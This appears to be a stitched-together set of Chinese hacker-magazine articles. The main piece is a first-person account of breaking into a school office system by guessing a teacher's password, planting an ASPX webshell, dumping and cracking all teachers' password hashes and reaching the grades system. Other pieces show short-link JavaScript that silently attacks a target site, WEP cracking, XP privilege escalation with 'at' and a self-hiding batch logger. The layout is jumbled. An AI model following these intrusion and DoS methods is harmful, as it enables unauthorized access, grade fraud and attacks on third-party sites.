6月，是考试的季节，也是我们大学生最纠结的时候。为什么呢？因为期末要算总账了，要期末考试了，可是我们偏偏不热爱考试，于是作为计算机系中的我，产生了邪恶的想法。


图2


图1


图3

我是班上的学习委员兼班长，和老师接触比较多，一次去英语老师办公室，看见老师在登录办公系统。（如图1）是一点智慧网络办公系统，我看到她的用户名很简单，是她的姓名的拼音缩写，然后她又输入了密码，好像是6位，纯数字的。当时我看到也没太在意；后来，回到宿舍，我突然一想，她办公系统中是否有期末试卷了？于是，一场轰轰烈烈的入侵开始了。


打开网站，看了看，叫一点智慧网络办公系统，一看就是一个商业版本，漏洞较少……我想，作为一位女老师，安全意识肯定不高，估计是她手机号、生日之类的。正好，我又有老师的 QQ，于是，匆忙打开她的资料……我于是念着这个试了下……就这样，密码就破了，然后我便开始找期末试卷……（如图4、图5）


现在试卷也拿到了，密码也破了，貌似没什么可做了。但是，我们考试不是考一门，有好几门，数据库、C# 都要考……这就意味着，我要搞定这个办公系统的数据库……由于办公系统是 ASPX 的，于是我找出一个大的 ASPX 马，直接传上去，上传成功（如图6），点击链接访问大马（如图7）……


```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <appSettings>
    <add key="dbmail" value="server=192.168.16.8;uid=sa;pwd=...;database=Netoffice" />
    <add key="dsn" value="server=192.168.16.8;uid=sa;pwd=...;database=Netoffice" />
    <add key="connectionString" value="server=192.168.16.8;uid=sa;pwd=...;database=Netoffice" />
  </appSettings>
</configuration>
```


在马里转了转，看到了非常想要的文件，WEB.cfg，有了它，数据库就是我的了。将文件下了下来，用记事本打开，数据库密码一览无余（如图8）……复制上去，点击 GO 连接，又成功了（如图9）。选择 NETOFFICE 数据库，所有的表都出来了（如图10）……于是我在数据库语句框中写下 `select * from users`，点击 query 执行，所有老师的账号密码都显示了出来（如图11）。但现在又一个问题出来了，密码被加密过了，貌似是40位 MD5 的……

没按照杂志上那么做，我直接把这40位丢进 www.cmd5.com，发现它是 SHA1 类型的，并且还要收费。所以，在这里，我向大家推荐一个免费的密码查询网站，是国外的，数据量蛮大的，www.md5decrypter.co.uk，表上的密码都能在上面查到。后来我找到数据库老师的名字，将他的账号记下，密码破出，进入办公系统，没找到试卷。后来又搞到 C# 老师的，进去后，也没有试卷，这下，心放了。

回来。工号解决了，可是密码又怎么办了？我想了想，习惯性地搜索了密码，果然一封录入军训成绩的邮件让我差点晕厥，（如图14）密码为 a，于是我拿着老班的账号去登了教务系统。我感觉今晚可以去买彩票了，哈哈。（如图15）然后我点成绩录入，看到了上学期选修课的成绩，并且可以修改，（如图16）以前上课的幻想成为了现实。


图12


图14


图13


图15

搞到现在，也累了。现在想想，我已经有了所有老师的账号密码，和网站的控制权。能不能再深入一下呢？然后我便在学校网站上转，发现了又一个好东西：学校教务系统，这就是我们查成绩的地方。我顿时豁然开朗，找试卷不就是为了能有好成绩嘛，如果能以老师身份进入教务系统不就好了嘛！打开教务系统网站，发现是青果软件学院网站管理系统，这个系统用的蛮多的。记得以前我姐姐学校就是用这个（如图12）。我们查成绩的时候，是用学号当用户名，身份证后六位是密码，今天在下拉菜单中选择教辅人员，发现竟然是工号当用户名！我怎么知道老师工号啊，点了根烟（虽然学校禁止吸烟）。想了下，学校肯定会把工号以某种方式告诉老师，或者培训老师使用这个系统。那会以什么样方式呢？我慢慢煎熬着，对了，还是办公系统！因为只有用那个系统最方便，因为用那个老师互相联系不需要记住对方邮箱号，可以直接发。并且发邮件、通知消息的都是系主任以上级别的人物。对了，我们班班主任就是辅导员！于是我在那个 USERS 表中找到他，破出密码，用他的账号进入了系统。在邮件系统中，看到可以直接搜索邮件，我直接搜索“工号”，哈哈，果然找到了，运气真的很好，（如图13）看到上面说的吗？工号在附件里，我赶忙把附件下载。


图16


图17

## 内网战场

下面的事大家就可想而知了，我又搞到数据库老师和 C# 老师的账号密码，进了教务系统（如图17）。现在我就等着考完试，如果成绩不满意，直接改成绩，呵呵。（但我的数据库和 C# 很好的哟！）

现在想想，我之所以到现在能毫无阻力，就是因为英语老师密码过于简单，没有安全意识。我有了学校办公系统的 WebShell，是 SA 权限，后来看了看，开了 3389，没杀软。如果我想继续搞，也很简单，并且整个院老师的办公系统账号密码也都掌握了。如果我有其他邪恶的想法也是可以行得通的。但我这次目的是为了期末考试，所以，这个看似困难重重的入侵到这里就结束了。

P.S.：既然老师的密码那么简单，不做点什么都对不起自己。但是改成绩实在是有风险。大家适可而止啊！！！！！

### 短地址——一个巨大的陷阱

独坐黄昏

随着微博的流行，越来越多的门户网站都在自己的旗下创办了自己的微博功能。加上微博传播的速度越来越快，它渐渐成为我们生活中不可缺少的一部分。当微博诞生的那一天起，也就出现了一种新的地址格式，也就是短地址，它让长长的地址缩短成一小节的地址，这大大方便了用户之间的交流（微博最多不超过 140 字左右的字符）。可就是因为短地址，问题就出现了——谁也不会知道短地址后面的网页是什么，挂马网页？正常网页？这个，真的不知道~！

在短地址中，我们除了挂马或者钓鱼来欺骗用户，难道就没有其他的方法了吗？有的，就是通过短地址来实现 DDoS。

首先，我们先打开一个短地址网站，地址：http://DOZ.me。这个是一个外国黑客 Ben Schmidt 制作的，如图1。

后面的短地址就是你需要的短地址了。我们可以通过各种方式传播这个短地址：当用户点击时，会发起 DoS 攻击；当用户广泛点击时，就变成了 DDoS。注意：在输入网址的时候一定要加前缀，也就是 `http://`，例如：http://www.baidu.com。我们先在正常地址里填入百度的地址 http://www.baidu.com，然后在攻击地址处填上黑X的地址 http://www.hackx.cc，点击 “Get my link”，它就会给出一个短地址 http://d0z.me/A5nX。

当我们打开短地址时，地址并不像其他短地址一样跳转到正常地址，而是在原始的链接上不动；网址不是正常网页的，而网页内容却是正常的，如图2。虽然它显示的是百度的网页，就连进去的也是原来的短地址，如图3。


图1


图3

不是百度的地址却打开了百度，那肯定有阴谋。让我们来看一下它的代码，如下所示：


图2

页面虽然很简单，但是威力可不小，只需几步就可以了。第一步，我们打开网址以后，在 “Link” 后面的框架中填入正常的地址（链接）；第二步，在 “Title” 后面填入你想要攻击的地址。设置完以后，点击下面 “Get my link” 的按钮，就会跳转到另外一个页面，而页面上 “Your new link” 后面的短地址就是你需要的短地址了。

```html
<html><head><title>
</title> <!--标题标签-->
<script type="text/javascript" src="js/tracking.js"></script> <!--引用js/tracking.js文件-->
<style> /*样式声明*/
#page {width: 100%; height: 100%;} /*page宽100%，高100%*/
body{margin:0;} /*body的外边距为0*/
</style>
<link rel='shortcut icon' href='http://www.baidu.com/favicon.ico' type='image/x-icon' /> <!--定义地址栏前端显示的ico图标文件-->
```

## 傻瓜黑客

```html
<script type="text/javascript">
var target = 'http://www.hackx.cc'; // 定义target变量
var worker_loc = 'js/worker.js'; // 定义worker_loc变量，值为js/worker.js
</script>

<script type="text/javascript" src="js/run_worker.js"></script>
<!-- 引入外部JS文件(js/run_worker.js) -->

</head>
<body>
<iframe id="page" name="page" src="http://www.baidu.com" frameborder="0" noresize="noresize" style="overflow:visible"></iframe>
<!-- 载入 http://baidu.com 这个框架页 -->
</body>
</html>
```

我来解释一下这段 C 语言：

定义一个变量 workers，也是 `new Array`；定义一个变量 i，初始值是 0；定义一个 noWorker，也是把 `typeof Worker` 赋值到变量 noWorker 里，它的值是 undefined……判断是否正确，如果函数（不是变量 noWorker）那么进入 for 循环。for 循环的具体内容是：把 `new Worker(worker_loc)` 的值赋值到变量 `workers[i]`（数组 i），`workers[i]`（数组 i）用到 `postMessage` 函数（“邮件”），然后是 alert 函数开始（警告或提醒）。总的来说，如果网址无效或输入错误，它就会提示 “Worker is not enabled”。“tracking.js” 里面的东西不太懂，还请大牛们解释一下，下面贴出代码：

```javascript
var _gaq = _gaq || [];
_gaq.push(['_setAccount', 'UA-15919924-3']);
_gaq.push(['_trackPageview']);

(function() {
  var ga = document.createElement('script');
  ga.type = 'text/javascript'; ga.async = true;
  ga.src = ('https:' == document.location.protocol ? 'https://ssl' : 'http://www') +
           '.google-analytics.com/ga.js';
  var s = document.getElementsByTagName('script')[0];
  s.parentNode.insertBefore(ga, s);
})();
```

```javascript
从上面，我们看一下 "js/tracking.js" 里面有什么？

var workers = new Array();
var i = 0;
var noWorker = typeof Worker == "undefined" ? true : false;
if (!noWorker) {
  try {
    for (i = 0; i <= 0; i++) {
      workers[i] = new Worker(worker_loc);
      workers[i].postMessage(target);
    }
  } catch (e) {
    // comment out in release
    e = e + "";
    alert(e);
    if (e.indexOf("Worker is not enabled") != -1) {
      noWorker = true;
    }
  }
}
```


图4

当有人点击这个链接的时候，他们会被重定向到请求网址，并附带一个隐藏的 iFrame。该 iFrame 可以在用户浏览网页时发动 JavaScript DoS 攻击。也就是说，只要是在百度目录下的网站都可以通过这个短地址访问，但是它在访问过程中会通过 HTML5 的框架特性发起 DoS 攻击；当这个短地址到处流传的时候，大家一起发起 DoS 攻击，就演变成了 DDoS。

## 剑走偏锋

## 另类玩转 NOKIA 手机系统

文国武

破解手机相信大家都在以前的黑X上看过吧，从最早的序列号证书签名到一键破解系统权限工具 HelloOX 等，后来由于手机内核升级，之前的方法逐渐失效。本文介绍另一类方式破解手机。

注意：此方法仅用于 NOKIA 品牌的塞班系统；破解时手机必须有充足电量（破解途中若手机没电，后果自负）。


图1

我用 E72 演示：先下载安装直签工具（图1），自动联网上传序列号并制作证书；然后安装 certUpdater.sisx，再用直签工具选择 certhack_installer.sis 签名并安装（图2）。


图2


图3


图4

安装过程中会提示是否安装已签名文件（图3），全部确认。完成后在应用程序中出现 HakIt（图4）。打开后会出现 “hacking...please wait” 提示（图5）。


图5


图6

等待完成后会出现 ROMPatcher Plus，打开并执行 “All Patches -> apply”，两个蓝色圆圈变绿后重启，手机权限开启。接着可按同样方法安装“八门神器”等工具。

## 傻瓜黑客

位置记下高度 180，接着寻找并锁定数值；返回游戏后继续操作，再记录新的固定数值（如 667）并继续搜索。随后将值相关字段填入大量数值（如 99999999）并确认，回到游戏后可见对应数值变化。该方法同样可用于其他游戏：先让目标数值发生变化并定位锁定，最后覆盖原始关键值。


PS：如果想安装更高权限的软件，可使用 Leftup_Cert.cer 和 Leftup_Key.key 进行自签，以将部分软件原有权限扩展；相关设置方法见图10、图11，按提示设置本地证书与密码后可继续操作。

### 诺基亚刷机大法

#### 一、入门篇：何谓刷机

“刷机”对新手来说较陌生，通俗讲类似重装系统。它可以使手机固件版本升级，也可降级。常见方法有凤凰刷机和 JAF。两者区别在于：凤凰通常用于不低于当前版本的刷写，而 JAF 可用于更多版本（存在一定风险）。

这里主要介绍 JAF 刷机。JAF 由 Odeon 设计，虽比 Saras Boxes 与 Griffin 出现稍晚，但在核心技术上长期领先。除实现常规功能外，还可用于部分 NOKIA 机型的软件升级、改字库与 IMEI 相关操作等。

黑夜红云

该方法适用于 NOKIA 相关设备，但适配性不如 Saras Boxes 广。JAF 刷机分为亮灯刷机与灭灯刷机，此处介绍亮灯刷机。通常通过 DIY 固件实现个性化：优化系统、提升运行速度、进行权限与界面美化等。

#### 二、必备工具及固件的选取

- 1. 电脑一台
  - 要求系统无病毒、无故障；推荐台式机。
  - 笔记本需接外接电源，避免中途断电导致异常。

- 2. PC 套件或 OVI 套件
  - 推荐使用 OVI 套件。
  - 可从 Nokia 官网支持页面下载相关组件。


software/software/ovi-suite/compatibility-and-download 下载。安装方法就不多说了。

安装 OVI 套件和 JAF 工具时请按照软件的默认路径安装，请勿改变安装路径！


#### 3. 安装 JAF 刷机工具

安装前请先关闭电脑所有的安全软件：360、360 保险箱、系统防火墙、杀毒软件等等，统统关闭，这点很重要。开始安装 JAF，点“下一步”。此时可以看下使用方法，弹出提示框。因为之前安装过 PC 套件或者 OVI 套件，所以不用安装 JAF 自带的驱动了，这步点“否（No）”；接下来等待。如果提示你安装什么驱动或者修改什么系统文件之类的，一律点允许安装，等待安装完成；安装完成之后桌面会自动生成一个足球的快捷方式，如果没出现就是没有安装成功，请重新安装一次！


- 3. 鼠标右键点击“我的电脑”，选择管理器，查看所有与诺基亚有关的连接是否全部正常。如果出现三角形黄色警告图标，则是没有连接好（图2）。
- 4. 因为之前已经把手机以 PC 套件模式连接到电脑了，所以现在直接运行 JAF 就可以了。


运行之后如图：左边选择第二个，中间选择第一个（图3），之后出现下图（图4）。

#### 4. 固件的选用

在待机状态下输入 `*#0000#` 可以查询 RM 是多少（RM 是类型标识符，如国行、港行、亚太等等）。

目前官方固件 RM-356 和 RM-428 的可以升级到 V52，RM-427 的可以升级到 V30，RM-602 的可以升级到 V11。

本文适用于诺基亚大部分智能手机！现在我们以电脑系统为 Windows XP，手机为诺基亚 5800XM RM-356 类型 DIY 固件为例：将下载的固件包放到电脑上的 `C:\Program Files\Nokia\Phoenix\Products\RM-356` 里面；没有文件夹的自己建立。固件存放位置（图1）。

#### 三、刷机篇

- 1. 将手机用数据线连接电脑（选择 PC 套件模式）。注意要使用比较紧的 USB 插孔，避免接触不良！
- 2. 运行 OVI 或 PC 套件连接手机。第一次会安装什么插件，不用管它。点击连接后即可，可以把电话号码本、短信息、图片等等同步到电脑。


## 傻瓜黑客

先选择菜单上面的 BBS，然后按照下图进行勾选：先勾选左边 2 个，然后去掉右边 CRT 308 的勾（一定要去掉，否则会报错），接着选择上面的 Use INI，等待几秒之后，会弹出一个窗口，选择你手机指定的 RM（图5）。

此时选择 RM，你手机 RM 是多少就选择多少，比如 356、427、602 等等，然后点击确定。（本版本 JAF 里面 RM-356 有 2 个，我选择的是 RM-356 5800D-1）。

此时刷机软件中的几个灯应该点亮！（每个固件的刷机灯应该是不同的，如果没有注明就应该如图所示。）选择 RM 之后就该选择 code 了，按照作者指定的 code 进行选择（图6）。

（每个 DIY 固件选择的 code 是不一样的，你刷谁的固件就按照谁的固件要求选择 code。有的是一个 code，就不用选择了，比如刷 C6 的时候，或者只是放入一个 code 的固件的时候。现在大多数的 DIY 固件都通刷了，不区分 CODE 了……）


图6

选择好 code 之后，先关闭 PC 套件或者 OVI 套件（任务栏右下角，点右键，关闭），然后关闭手机（请确保手机关机状态，手机电池电量保持在 60% 以上！），点击 FLASH（右上角），出现提示框后选择“是”（图7）。然后轻轻按一下手机开机键，只按一下就可以，不用按住；然后等待电脑安装驱动。


图7

如果最下面跳出 not found，请重新点击一次右上角的 FLASH，然后点“是”，然后轻轻点一下开机键，多重复几次，直到 JAF 下面出现滚动信息为止（图8）。


图8


图9

刷机时先出现红色条擦除数据；然后出现绿色条开始写入数据。此时耐心等待几分钟，千万不要断电，不要拔数据线，否则会刷成砖头（图9）。进度条走完之后，出现 Done 证明刷机成功了；如果出现别的，可能是没刷成功，请重新刷一次。如果出现 Pooling Phone……说明你之前装的驱动有问题，可能成砖头了，重新刷一次。

出现 Done 之后，手机是横屏 Nokia，然后自己开机。等待手机自己开机之后就可以拔数据线了。有的固件刷完之后不会自己开机，出现 DONE 之后，就拔电池重新放上再开机！

刷机之前要备份好文件：电话号码、安装程序、软件配置文件等等。电池电量要充足，避免刷机途中断电变砖头！刷机后一定要格机，如果你之前格过卡了就不用格卡了；如果没格过就先格卡，再格机……

另外，上面的 Factory Set 和下面的 Factory Setting 是否需要勾选；这 2 个选项是恢复出厂设置，也就是格机。选择不选择都无所谓，因为你刷机后要格机的……

我的经验是：在手机关机前格式化内存卡，刷机的时候勾上上面的 Factory Set，刷机后就不用格机了。

还有就是上面那个 Change also product code，如果勾选了，刷机之后就自动改 code，改成刚才你选择的那个 code；如果不勾选就是你机器原来的 code，这个是否勾选也无所谓。

最后再提醒下：刷机前备份好文件，电脑端设备管理器全部没有警告标志（包括调制解调器）、固件放置正确、手机电量充足！必须的提示：刷机有风险，刷机须自行承担后果！

### 八款免费无线破解无线密码

早就有实战一次破解无线密码的想法，由于种种原因直到前几天才把想法变成现实。家里虽然无线路由器和无线网卡买了2年左右了，但当时买无线网卡的时候还不知道无线破解这回事，自然不可能考虑后来的BT3、BT4甚至最新的BT5支不支持，就选了个比较大众的TP-LINK TL-WN322G+，结果在想破解无线密码的时候就悲剧了。为啥？驱动不支持啊！BT3、BT4不支持这款USB无线网卡，就连不久前刚出的BT5也不支持这款USB无线网卡，用BackTrack破解无线密码的想法只能作罢；期待更高版本的BackTrack能原生支持我的无线网卡。

前一段时间用VMware安装了Ubuntu 10.10，高兴地发现Ubuntu 10.10能识别我的TP-LINK TL-WN322G+无线网卡了，心想这次可以试下无线破解了吧。参考杂志上相关的文章来照着做，先是用的Aircrack-ng工具包想在纯命令行下完成无线密码的破解，但在抓取数据包时出错，提示“ioctl(SIOCSIWMODE) failed: Device or resource busy”，如图1，不知道怎么解决了。


图1

知道问题出在哪的朋友请指点。看来在Ubuntu下用Aircrack-ng工具包是破解不成了，又想到了图形化破解工具SPOONWEP，但SPOONWEP需要Java环境的支持。有网上说要先下载jre，也许是源的问题，下载jre的时候速度特别慢，提示我要3个多小时才能下完。天热了，我也没耐心了，直接Ctrl+C结束下载，想用SPOONWEP进行破解也行不通了。

后来看到有人介绍用Beini破解无线密码，就到网上下载了一个Beini尝试，发现Beini支持我的TP-LINK TL-WN322G+ USB无线网卡，破解无线密码完全图形化，步骤也非常简单，可以说是傻瓜化，感觉非常好用。本着共享的精神，介绍给还没用过Beini的朋友。

来简单介绍下Beini。Beini是赵磊制作的一个基于Tiny Core Linux搭建的无线网络安全测试系统，它还有一个可爱的名字——奶瓶。目前最新版本为Beini-1.2.2，Beini体积非常小巧，最新版本的ISO镜像只有47.6 MB，非常方便制作USB启动盘，具体怎么制作不是本文的重点，有兴趣的可以参考Beini官方给出的制作方法：http://www.ibeini.com/zh-cn/documentation/uboot/uboot.html。  
目前Beini支持的网卡官方有列表：http://www.ibeini.com/hcl.htm。

要使用Beini，先来下载Beini。这里来吐槽下，官方给出的最新版本Beini下载地址居然打不开，后来挂了个美国的VPN才打开下载页面，获得了文件的直接下载地址：http://dc230.4shared-china.com/download/pODdhVmQ/beini-122.zip?tsid=20110530-164503-a3a1de6。大家可以用迅雷下载，速度还是很快的。下载下来的文件名为beini-1.2.2.zip，MD5值为33F1D50E-08659F0D-001BA57D-8E9949B6。

由于周围没有其他的WIFI信号，只能拿我的无线路由器信号来做演示了。本次演示的环境为：TP-LINK TL-WR541G+无线路由器一台（通过ADSL上网），TP-LINK TL-WN322G+ USB无线网卡一块，通过无线网卡（本本内置网卡，不是TP-LINK TL-WN322G+）连接到无线路由器的本本一台。

为了方便，我直接在虚拟机VMware里安装Beini。我用的是原版VMware Workstation 7.1.0。首先来新建一个虚拟机，打开VMware Workstation，点“File”菜单下的“New”，选择“Virtual Machine”打开新建虚拟机向导，如图2。


图2

一路Next直到来到选择虚拟机中安装的操作系统的地方，“Guest operating system”选择Linux，“Version”选择Other Linux 2.6.x kernel，如图3。


图3

点“Next”来到了给虚拟机起名字和设置虚拟机文件保存位置的地方。在“Virtual machine name”下面输入想给虚拟机起的名字，我这里给它起名Beini；“Location”下面是设置虚拟机文件保存在哪，你可以自定义保存位置，这里我设置为G:\vmware\beini，如图4。


图4

继续一路“Next”再点“Finish”就创建好了一个如图5的虚拟机。


图5

把下载回来的beini-1.2.2.zip解压开，得到ISO镜像文件beini-1.2.2.iso。双击图5中的“CD/DVD(IDE)”来到光驱设置的地方，选择“Use ISO image file”，通过“Browse”按钮选择刚解压出来的Beini镜像文件beini-1.2.2.iso，点“OK”按钮完成设置，如图6。


图6

现在可以来启动新建立的虚拟机Beini了。点绿色向右的实心三角形来启动虚拟机，启动完成的系统如图7。


图7

非常对不起大家，截的图里有一个弹出菜单。按Ctrl+Alt切出虚拟机的时候会弹出个菜单，否则无法截图。把USB无线网卡TP-LINK TL-WN322G+插到电脑上，如果虚拟机没有自动识别的话，选择Beini虚拟机，选择“VM”菜单下的“Removable Devices”，然后选择“ZyDAS USB2.0 WLAN”下的“Connect (Disconnect from Host)”，如图8。其中“ZyDAS USB2.0 WLAN”是我的无线网卡TP-LINK TL-WN322G+，不同网卡这里的名字也可能不同。为了让Beini识别插入的TP-LINK TL-WN322G+，需要重启下虚拟机里的Beini系统，点系统下面的第六个图标“logout”，选择“Reboot”来重启系统。重启完成后USB无线网卡就识别了。


图8

下面该进入今天的主题——破解无线信号密码了。路由器的无线信号我设置了WEP加密方式，具体设置如图9。

破解用到的软件是minidwep-gtk，点系统下面的第7个图标“minidwep-gtk”，首先出来的是一个信息提示框，点“OK”后就出来了如图10的软件界面。


图9


图10

“Wireless Cards”下面列出了软件识别出的无线网卡，这里只有一个wlan0，也就是我的无线网卡TP-LINK TL-WN322G+；“Channel”设置要破解的无线信号所在频道，如果你知道的话可以具体设置，这里保持默认ALL，也就是所有频道；“Mode selected”是模式选择，这里还是保持默认设置；“Injection rate”是注入速度，这里也保持默认的500。点软件右上角的“Scan”按钮来扫描周围无线信号，然后会弹出airodump-ng的命令窗口，如图11，一会窗口自动关闭，显示扫描出了一个无线信号，如图12。


图11


图12

由于只有一个无线信号，自动选中了它，点“Launch”按钮来破解密码，会弹出3个命令窗口，软件下面IVS的数据在慢慢增加，如图13。


图13

如果有客户端连接到无线路由器并且正在上网的话，IVS会增加得非常快。我用本本浏览几个网页，切换到虚拟机中，发现密码已经破解出来了，如图14。破解出的密码和图9中无线路由器设置的密码相同，说明破解成功。


图14

别看我啰里啰嗦地写了那么多，其实用Beini破解经过WEP加密的无线信号非常简单，只需要几步：启动虚拟机里的Beini系统，打开minidwep-gtk软件，点一下Scan按钮，再点一下Launch按钮，密码就出来了。如果运气好的话，不到一分钟整个过程完成。而且整个过程都是图形界面，相当傻瓜化。

除了破解WEP加密的无线信号密码外，Beini还提供了破解WPA/WPA2加密方式的软件FeedingBottle，但我在用它尝试破解WPA时总是提示没有客户端连接到路由器，尽管本本明明连接到了路由器，破解也就没法进行下去了。

本文简单介绍了利用Beini破解无线信号密码的方法。由于我也是刚接触这个，很多东西都不懂，写得不对的地方还请大家指出和谅解。总之利用Beini进行无线密码破解非常简单，完全图形界面下的傻瓜化操作非常适合新手。再加上Beini不到50MB的小巧身材，在虚拟机中运行时占用系统资源很低，是破解无线密码的特别不错的平台。

（文章中涉及的相关软件本期光盘已收录）

### 从账号安全到隐写术

在江湖闯荡这么多年，相信每个人手里都有大把大把的账号。有些人会图省事而使用一致的账号和密码，这些人一旦被盗取某一个账号，立刻就会全军覆没。这种“一法通，万法通”的情况我就遇到过。

说一个我自己用的办法：我只用很少的几套密码，但每个账号用的却都不一样。这是为什么呢？因为——Shift。我在输入密码的时候会加入一些Shift操作。打个比方，密码是123456，按下Shift再输入，实际密码就成了（！@#￥%……）。结合字母的大小写，一套密码就有了无穷的变化。比如密码是hackx201107，我们在第2、4、6、8、10位按下Shift，输入的密码就变成了hAcKx@0l1)7。我并不是让大家都学我这个方法，毕竟一种加密方式了解的人越多，就越不安全。我只是希望大家能体会这种思路，想出自己的方式。

虽然这样可以把需要记忆的密码简化，但时间长了还是会忘。我干脆把一些不常用同时有一定价值的账号相关资料整理成了一个txt，以备份的时候查询。现在问题来了，我该把这个文档放在哪里？像这种有重要价值的信息文档，一旦被窃取或丢失是非常可怕的。U盘加密可以被破解，时间问题罢了。U盘也可能丢失（我都丢了好几个U盘和内存卡了，杯具）。

最后，我决定使用——“隐写术”。

隐写术是信息隐藏的一个重要分支，其目的是将信息秘密地、安全地传递或保存，而不引起其他人的注意。相对于传统将信息加密为密文的方法，隐写是将有用信息隐藏到另一个公开的信息媒体中，是对信息存在本身的加密。可以通过多种隐写技术实现对不同文件信息的隐写，如mp3、bmp、jpg、gif、text、pdf等格式文件。

扯淡就此结束，下面说些实在的。


图1

### 1. Psytec QR软件二维码加密

这是我找到的第一个软件，可以将信息加密为二维码的图片形式，如图1。

可以在文本框输入信息，并在下面输入密码，之后可以保存为一个图片文件。这张图片可以被该软件载入，输入密码后就可以看到原始信息。

但是，那么大的一块二维码，你当别人是傻子？不论是谁一眼看去都会知道这里面含有重要信息。这实际上和将明文转换为密文的传统加密方式根本没有本质上的差别，破解依然是时间问题。所以，果断换下一个。

### 2. HIP（hide in picture）

这款软件可以将任意文件隐藏到bmp等位图中（只能隐藏KB级的小文件，且只能隐藏在位图中，不能用矢量图），而图片本身并没有明显变化，如图2。


它的原理是通过修改位图中的颜色分量来存储信息。比如：一个24位的位图中的每个像素的三个颜色分量（红、绿和蓝，即RGB）各使用8个比特来表示。如果我们只考虑蓝色的话，就是说有2种不同的数值来表示深浅不同的蓝色。而像11111111和11111110这两个值所表示的蓝色，人眼几乎无法区分。因此，这个就可以用来存储颜色之外的信息，而且在某种程度上几乎是检测不到的。如果对红色和绿色进行同样的操作，就可以在差不多3个像素中存储一个字节的信息。

界面倒是很简洁很傻瓜。可以选取一个文件和一个位图，将文件隐藏在位图中，可以设置密码。我试了一下，嵌入文件和没有嵌入文件的图片对比，肉眼看不出差别。

看起来不错，于是我就把文档嵌入一张图片，传到相册和其他图片混杂在一起，这就达到了我的目的。

我们继续测试，也许还有更好的。对比一下，看得出来吗？图3为原始图片，图4为插入文件后图片。图3、图4。

#### 3. Mozaiq

找到一个在线的网站提供相关服务。

访问 http://mozaiq.org/encrypt/ ，如图5。在其中的step1上传图片，step2输入要加密内容，step3输入密码。点击“hide your message”就生成了加密图片，选择下载保存（点那个“download your image”）。之后可以在 http://mozaiq.org/decrypt/ ，如图6。step1上传图片，step2输入密码，点“Reveal Your Message”即可提取信息。


由于需要网络连接，较第二种复杂，所以并没有选择这个方式。

还有支持图像/音频/视频/Adobe Flash的OpenPuff，嵌入GIF的Hide and Seek（会使图片明显失真，远不如HIP好用）；插入TEXT的stegomagic（没下载下来，%>_<%）。因为时间原因，就不测试啦。

怎么样，把重要信息塞到图片里，然后混到相册，用的时候下载下来查看。灰常给力吧？你说神马？加密使用的密码也存在里面了，没记住？我勒个去，白忙活啦。

### 揭秘猫咪大黑客

suno

最近微博上流传着一则“广电总局被黑”的热帖，还给了个链接。点进去一看，瞄了咪的，一只逐渐变大的猫咪在广电局主页上乱跑。适逢723动车追尾事故，铁道部不晓得是喝多了还是吓傻了，说了不少胡话，于是没几天，主页也步了广电局的后尘（如图1）。有人笑称，这是猫咪大战黑客。

动车安不安全，咱不好评论，但广电总局、铁道部在短短几天内接连“被黑”，难道网站存在什么重大安全问题？

仔细研究帖子所给的链接：`http://nyanit.com/www.china-mor.gov.cn`。这个链接非常奇怪，而且看起来并不是铁道部的主页，铁道部的主页网址是：`www.china-mor.gov.cn`。对URL有所了解的叉子，应该知道帖子链接所指向的网站应该是`nyanit.com`。

接着再看看广电局被黑的帖子链接，是：`http://nyanit.com/www.sarft.gov.cn`。怎样，非常眼熟吧，又是这个`nyanit.com`。


图1

原来，这个`nyanit.com`网站提供了一个类似代理的功能，通过在请求访问的URL字符串“`http://nyanit.com/`”后面加上想要“黑”的目标网址，就可以看到有只小猫在目标网址所显示的页面上跑动了。

实战一下吧，现在我就要召唤“猫咪大黑客”黑大名鼎鼎的Google！怎么做？很简单，在网址栏上输入`http://nyanit.com/www.google.com`。看看Google是不是就要泪奔了！（如图2）


图2

## XP下全提SYSTEM账户

我们大家都知道，XP的用户组有很多：Users（普通用户组）、Power Users（高级用户组）、Administrators（管理员组）、Guests（来宾组）、Everyone（所有用户）、SYSTEM组。我们今天要说的SYSTEM组是拥有和Administrators一样甚至更高权限的组，在查看用户组的时候它不会被显示出来，也不允许任何用户加入。这个组主要是保证系统服务的正常运行，赋予系统及系统服务权限。

下面我就来说一下登录SYSTEM账户的步骤。

首先在CMD下输入命令`taskkill /f /im explorer.exe`，把`explorer.exe`的进程结束掉（如图1）。然后再输入`time`获取系统当前时间，输入新时间直接回车就可以了（如图2）。


图1


图2

大家可以看到当前时间是23点20分27秒，我们记下时间以后，再输入命令：`at 23:24 /interactive %systemroot%\explorer.exe`（如图3）。


图3

我解释一下上面的命令，`at 23:24`是计划启动时间，就是在这个时间启动后面的命令。大家输入的时候和当前时间相差2-3分钟就可以了。这句命令总的意思就是说在23:24的时候以SYSTEM权限来启动explorer。当到了这个时间以后，系统会自动加载SYSTEM账户（如图4），这样就成功了。

在SYSTEM账户下，我们可以做许多Administrator账户做不了的事，比如获得更高的3389权限、结束一些进程等。更多功能等待各位去发掘！


图4

## U盘你轻轻地来，正请留下“云彩”

尼尔克尼诺

新近换了个科室，总觉得有些别扭。比如办公室的电脑，总是有人趁偶不在的时候擅自动用。本来也无所谓的，只不过极少数不良分子经常有意无意地把感染病毒的U盘也往上插。如果是单机运行的电脑，哥倒是不介意，可办公电脑始终都处于内部网络之中，万一造成木马病毒盛行、办公系统瘫痪，到时领导找哥谈话，那可就不大妙了！三番五次地旁敲侧击，大家若无其事，就当什么都没发生过；声色俱厉地质询诘问，众人矢口抵赖，均说不曾在电脑上用过U盘。无奈之下，只好想个法子，从蛛丝马迹中找出证据，让他（她）们哑口无言、无从抵赖！

经过一番摸索，写了个可以隐身运行的批处理程序，它可以记录下任何一个插入电脑的U盘卷号、序列号、插入时间、拔出时间，具体程序代码如下：

```bat
@echo off
set da1=%date:~0,4%
set da2=%date:~5,2%
set da3=%date:~8,2%
if %1==h goto a
mshta vbscript:createobject("wscript.shell").run("%~nx0 h",0)(window.close)&&exit
:a
for %%a in (c d e f g h i j k l m n o p q r s t u v w x y z) do (
  for /f %%h in ('fsutil fsinfo drivetype %%a:') do ...
)
```

```bat
:begin
for %%a in (c d e f g h i j k l m n o p q r s t u v w x y z) do (
  set DriveU=%%a
  if exist %DriveU%:\ (
    echo 时间:%time% 日期:%da1%年%da2%月%da3%日>>c:\Removable.log
    echo 发现移动磁盘%DriveU%插入>>c:\Removable.log
    vol %DriveU%:>>c:\Removable.log
  )
)
goto begin
```

## 傻瓜黑客

```bat
echo >>c:\Removable.log
goto a
```


图1

